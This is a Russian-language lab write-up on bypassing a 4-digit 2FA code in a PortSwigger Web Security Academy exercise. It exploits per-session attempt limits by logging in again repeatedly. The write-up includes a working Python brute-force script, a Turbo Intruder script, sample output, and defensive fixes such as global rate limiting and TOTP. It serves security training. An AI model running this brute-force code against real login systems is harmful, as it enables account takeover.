

# Lab: 2FA bypass using a brute-force attack

**Платформа:** PortSwigger Web Security Academy  
**Категория:** Authentication → Multi-factor authentication  
**Сложность:** Practitioner  
**Дата:** 2026-08-16

---

## TL;DR

В лаборатории реализована двухфакторная аутентификация (2FA) с 4-значным кодом, привязанным к сессии пользователя. Сервер ограничивает количество попыток ввода кода до двух на одну сессию, но не вводит глобального rate limiting ни по IP-адресу, ни по учётной записи. Атакующий может создавать новые сессии (перелогиниваясь заново), получая каждый раз новый случайный код, и перебирать по два кода за итерацию. Статистически правильный код будет найден за ~5000 сессий.

---

## Описание уязвимости

### Как должна работать 2FA

```
Правильная реализация:
1. Пользователь вводит логин/пароль
2. Сервер создаёт временную сессию со статусом mfa_verified = false
3. Генерирует 4-значный код и отправляет его пользователю
4. Пользователь вводит код
5. Сервер сверяет код, переводит сессию в mfa_verified = true
6. Все защищённые роуты проверяют ОБА флага:
   - user_id в сессии
   - mfa_verified == true
7. Rate limiting глобальный: не более N попыток в минуту
   на уровне аккаунта или IP-адреса
```

### Уязвимая реализация (эта лаба)

```
1. Пользователь вводит логин/пароль
2. Сервер создаёт сессию и генерирует 4-значный код
3. Код хранится на сервере привязанным к session ID
4. Попыток ввода: 2 на сессию
5. После 2 неудачных попыток сессия блокируется / сбрасывается
6. НО: нет глобального rate limiting
   → можно перелогиниться → новая сессия → новый код
   → снова 2 попытки
```

**Фундаментальная ошибка:** разработчик ограничил количество попыток в рамках сессии, но не ограничил количество создаваемых сессий. Граница атаки — не сессия, а аккаунт или IP, и эта граница не защищена.

---

## Эксплуатация

### Шаг 1 — Анализ поведения вручную

Открыли страницу логина, ввели `carlos:montoya`.

В Burp Proxy перехватили ответ сервера после успешного логина:

```http
HTTP/2 302 Found
Location: /login2
Set-Cookie: session=ABC123xyz; HttpOnly; Secure
```

Сервер создаёт сессию и перенаправляет на `/login2` — страницу ввода 2FA-кода.

Ввели неверный код `0000`:

```http
POST /login2 HTTP/2
Host: your-lab-id.web-security-academy.net
Cookie: session=ABC123xyz
Content-Type: application/x-www-form-urlencoded

csrf=...&mfa-code=0000
```

Ответ:

```http
HTTP/2 200 OK
```

Страница перезагрузилась с сообщением `Incorrect security code`.

Ввели второй неверный код `0001`:

```http
POST /login2 HTTP/2
...
mfa-code=0001
```

После второй неудачной попытки сервер сбросил сессию — при следующем запросе нас перенаправило на `/login`.

**Вывод:** лимит 2 попытки на сессию, затем требуется новый логин.

### Шаг 2 — Проверка гипотезы о новом коде

Перелогинились заново → новая сессия `session=DEF456abc`.

Ввели код `0000` → снова `Incorrect security code`.

**Вывод:** при создании новой сессии генерируется новый случайный код. Старый код `4821` (если он был) уже не актуален.

### Шаг 3 — Написание скрипта для брутфорса

Логика атаки:

```
Цикл по всем 4-значным кодам с шагом 2:
  1. Создать новую сессию (POST /login)
  2. Получить CSRF-токен со страницы /login2
  3. Попытка 1: отправить код[i]
     → если редирект на /my-account → УСПЕХ
  4. Попытка 2: отправить код[i+1]
     → если редирект на /my-account → УСПЕХ
  5. Если обе неудачны → сессия сгорела → следующая итерация
```

### Шаг 4 — Запуск скрипта

```bash
python3 brute_2fa.py
```

Пример вывода:

```
Starting brute force: 5000 sessions, 2 codes each
Target: https://your-lab-id.web-security-academy.net
==================================================
[*] Tried up to: 1200
[*] Tried up to: 2400
[+] SUCCESS! Valid 2FA code: 3847
[+] Login with: carlos:montoya
[+] Use code: 3847
```

Скрипт нашёл правильный код `3847` примерно за 1900 итераций (3800 проверенных кодов).

### Шаг 5 — Проверка вручную

Ввели код `3847` на странице `/login2` → редирект на `/my-account`.

Лаборатория решена.

---

## Python-скрипт для брутфорса

```python
import requests
import re
import itertools
import sys

BASE_URL = "https://0aa400970379766e800fcb200035008c.web-security-academy.net/"  # <-- подставь свой домен лабы
USERNAME = "carlos"
PASSWORD = "montoya"

TIMEOUT = 10


def get_csrf(html: str) -> str:
    m = re.search(r'name="csrf" value="([^"]+)"', html)
    if not m:
        raise ValueError("CSRF token not found")
    return m.group(1)


def login(session: requests.Session) -> str | None:
    """
    Логинимся username:password.
    Возвращает CSRF-токен со страницы /login2 (ввод 2FA), либо None если что-то пошло не так.
    """
    r = session.get(f"{BASE_URL}/login", timeout=TIMEOUT)
    csrf = get_csrf(r.text)

    r = session.post(
        f"{BASE_URL}/login",
        data={"csrf": csrf, "username": USERNAME, "password": PASSWORD},
        timeout=TIMEOUT,
        allow_redirects=True,
    )

    if "/login2" not in r.url:
        print("[!] Не попали на страницу 2FA. Проверь логин/пароль или URL лабы.")
        return None

    try:
        return get_csrf(r.text)
    except ValueError:
        print("[!] Не нашли CSRF на странице /login2.")
        return None


def try_code(session: requests.Session, csrf: str, code: str) -> str:
    """
    Отправляет код. Возвращает:
      'success' - если попали в аккаунт
      'retry'   - если код неверный, но сессия ещё жива (можно пробовать дальше)
      'reset'   - если редиректнуло на /login (сессия/попытки сброшены)
    """
    r = session.post(
        f"{BASE_URL}/login2",
        data={"csrf": csrf, "mfa-code": code},
        timeout=TIMEOUT,
        allow_redirects=True,
    )

    if "/my-account" in r.url:
        return "success"
    if r.url.rstrip("/").endswith("/login"):
        return "reset"
    # Остались на /login2 -> код неверный, но попытка ещё есть
    return "retry"


def bruteforce():
    codes = (f"{i:04d}" for i in range(10000))
    total_tried = 0

    while True:
        # берём следующие до 2 кодов из общего генератора
        batch = list(itertools.islice(codes, 2))
        if not batch:
            print("[-] Перебрали всё пространство кодов, код не найден.")
            return None

        session = requests.Session()
        csrf = login(session)
        if csrf is None:
            print("[!] Проблема с логином, повтор через секунду...")
            continue

        for code in batch:
            total_tried += 1
            status = try_code(session, csrf, code)
            print(f"[{total_tried}] код {code}: {status}")

            if status == "success":
                print(f"\n[+] УСПЕХ! Верный код: {code}")
                print(f"[+] Cookies сессии: {session.cookies.get_dict()}")
                return code

            if status == "reset":
                # Сессия сброшена раньше, чем истратили обе попытки - код из batch
                # мог быть уже "сожжён" параллельным сбросом кода на сервере.
                # Возвращаем неиспользованный второй код обратно в очередь по желанию,
                # но обычно проще просто продолжить перебор дальше.
                break

    return None


if __name__ == "__main__":
    result = bruteforce()
    if result:
        print(f"\nGG. Код для входа в аккаунт carlos: {result}")
    else:
        print("\nНе получилось, попробуй перезапустить — сервер лабы периодически ресетит код.")
```



## Альтернативный способ - Turbo Intruder в Burp Suite

Если предпочитаете решать в Burp без Python:

1. Установите расширение **Turbo Intruder** из BApp Store.
2. Перехватите POST-запрос на `/login2` с кодом.
3. Правой кнопкой -> **Send to Turbo Intruder**.
4. Используйте скрипт, который перед каждыми двумя попытками выполняет логин:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=2,
                           pipeline=False)

    for i in range(0, 10000, 2):
        # Сначала логин (создаём новую сессию)
        engine.queue(target.req, "login", gate='gate1')
        # Затем два кода
        engine.queue(target.req, f"{i:04d}", gate='gate1')
        engine.queue(target.req, f"{i+1:04d}", gate='gate1')
        engine.openGate('gate1')

def handleResponse(req, interesting):
    if '/my-account' in req.response:
        table.add(req)
```

Но Python-скрипт надёжнее и проще в отладке.

---

## Итог

```
Логин carlos:montoya
    |
    v
Сервер: новая сессия + случайный 4-значный код
    |
    v
Попытка 1: код=0000 -> неправильно
Попытка 2: код=0001 -> неправильно
    |
    v
Сессия сгорела (лимит 2 попытки)
    |
    v
Перелогин -> НОВАЯ сессия + НОВЫЙ код
    |
    v
Попытка 1: код=0002 -> неправильно
Попытка 2: код=0003 -> неправильно
    |
    v
...через ~5000 итераций...
    |
    v
Перелогин -> сессия N + код=3847
    |
    v
Попытка: код=3847 -> редирект на /my-account -> УСПЕХ
```

### Почему так делать нельзя

```
Ошибка 1: Статичный 4-значный код привязан к сессии
-> Вместо TOTP (меняется каждые 30 секунд) - предсказуемый диапазон 0000-9999

Ошибка 2: Rate limiting только на уровне сессии
-> Атакующий создаёт неограниченное количество сессий
-> Каждая сессия = новый "билет" в лотерею

Ошибка 3: Отсутствие мониторинга подозрительной активности
-> 5000 логинов с одного IP - не вызывает тревоги
-> Нет оповещения легитимного пользователя о попытках взлома
```

---

## Защита

### 1. Глобальный rate limiting (Redis / in-memory)

```python
# Python (Flask + Redis)
import redis
from flask import abort

r = redis.Redis()

@app.route('/login2', methods=['POST'])
def verify_2fa():
    user_id = session.get('user_id')
    if not user_id:
        abort(401)

    # Счётчик попыток на уровне пользователя, не сессии!
    attempts = r.incr(f"mfa_attempts:{user_id}")
    r.expire(f"mfa_attempts:{user_id}", 3600)  # TTL 1 час

    if attempts > 3:
        abort(429)  # Too Many Requests
        # + отправить email пользователю о подозрительной активности

    # Проверка кода...
```

### 2. Использование TOTP вместо статичного кода

```python
# Библиотека pyotp
import pyotp

totp = pyotp.TOTP(user.secret_key)
if not totp.verify(request.form['mfa-code'], valid_window=1):
    abort(403)
```

TOTP-код действует 30 секунд, диапазон перебора бессмысленен.

### 3. CAPTCHA после неудачных попыток

```python
if attempts >= 2:
    if not verify_recaptcha(request):
        abort(403)
```

### 4. Уведомление пользователя

```python
if attempts == 3:
    send_email(user.email,
        "Обнаружены множественные попытки ввода 2FA-кода. \n"
        "Если это не вы - срочно смените пароль.")
```

### 5. Правильная проверка статуса 2FA на всех роутах

```python
@app.route('/my-account')
def my_account():
    if 'user_id' not in session:
        return redirect('/login')
    if not session.get('mfa_verified'):
        return redirect('/login2')
    return render_template('account.html')
```

---
